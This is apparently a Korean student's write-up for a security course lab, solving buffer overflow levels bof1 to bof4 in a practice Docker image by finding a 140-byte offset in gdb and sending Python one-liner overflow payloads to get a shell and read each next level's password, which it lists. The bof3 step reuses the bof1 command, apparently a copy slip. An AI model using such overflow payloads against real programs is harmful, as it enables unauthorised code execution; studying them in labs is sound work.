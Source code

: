 # Assignment 2

```shell
 $ docker run -it --privileged ccss17/bof
 $ cd crackme
```

> ID는 bof1, Password는 °ࡇ° ? ? ?

<br/>

### 4 - bof1

```shell
 $ vi bof1.c
```

![04-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-bof1_code.png?raw=true)

bof1.c의 소스 코드를 확인한다.

![04-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-buffer_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![04-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![04-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![04-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof2.pw를 읽어준다.

> bof2의 비밀번호는 e31a76fc 이다.

<br/>
<br/>

### 5 - bof2

```shell
 $ vi bof2.c
```

![05-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-bof2_code.png?raw=true)

bof2.c의 소스 코드를 확인한다.

![05-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-buf_address.png?raw=true)

strcpy를 찾아서 buf의 주소를 알아낸다.

![05-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-innocent_address.png?raw=true)

compare 함수 부분에 가서 innocent의 주소를 알아낸다.

![05-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof2 `python -c "print 'x'*140+'aaaa'"`cat
```

![05-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof3.pw를 읽어준다.

> bof3의 비밀번호는 78ac9531 이다.

<br/>
<br/>

### 6 - bof3

```shell
 $ vi bof3.c
```

![06-bof3_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-bof3_code.png?raw=true)

bof3.c의 소스 코드를 확인한다.

![06-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![06-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![06-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![06-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-pw.png?raw=true)

쉘을 열어주고,
쉘 권한으로 bof4.pw를 읽어준다.

> bof4의 비밀번호는 64869b0d 이다.

<br/>
<br/>

### 7 - bof4

```shell
 $ vi bof4.c
```

![07-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-bof4_code.png?raw=true)

bof4.c의 소스 코드를 확인한다.

![07-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![07-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![07-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof4 `python -c "print 'x'*140+'\x78\x56\x34\x12'"`
```

![07-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof5.pw를 읽어준다.

> bof5의 비밀번호는 c75cfe84 이다.
